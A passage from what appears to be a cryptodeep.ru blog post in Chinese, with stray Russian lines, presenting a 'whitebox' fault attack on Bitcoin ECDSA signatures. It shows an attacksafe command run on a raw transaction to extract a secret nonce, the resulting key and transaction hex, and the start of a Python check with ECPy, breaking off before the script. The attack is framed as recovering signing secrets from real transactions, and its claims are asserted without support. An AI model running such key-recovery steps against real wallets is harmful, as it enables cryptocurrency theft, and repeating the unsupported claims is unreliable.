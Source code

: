 

<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-37-1024x264.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1628"/></figure>



<p>我們發起了這次攻擊<code>-tool whitebox_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>



<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-38-1024x374.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1630"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x39ec5220d3937da589231cbaa5b04002ce3b5689173680ee110ef81287f7867e

RawTX = 01000000014398fe319f52d6b4cece666cb591ea22d1ea47dacd5df746e3aa588e5426a43c0d0000006b483045022100dd0b22efd991dac497ce7223f5410d72aa88049482c5dca8a90def184afe5cc802206a2f72ca1d30a0ec392808142960cc4024bb84ce7f2f52288933124004e4210301210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff0176020000000000001976a914212ae2b75df27ce3dfd0350335bc590d29d43bb188ac00000000</code></pre>



<p>我們看到一個銘文<code>"Deployments ECDSA"</code>，表示比特幣區塊鏈交易中存在嚴重漏洞。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0x39ec5220d3937da589231cbaa5b04002ce3b5689173680ee110ef81287f7867e</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>讓我們用<em>Python</em>腳本檢查一下<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>讓我們使用ECPy</strong></a>橢圓曲線庫：</p>



<p>現在讓我們通過指定運行腳本<code>&nbsp;секретный ключ "K" (NONCE)</code>：</p>

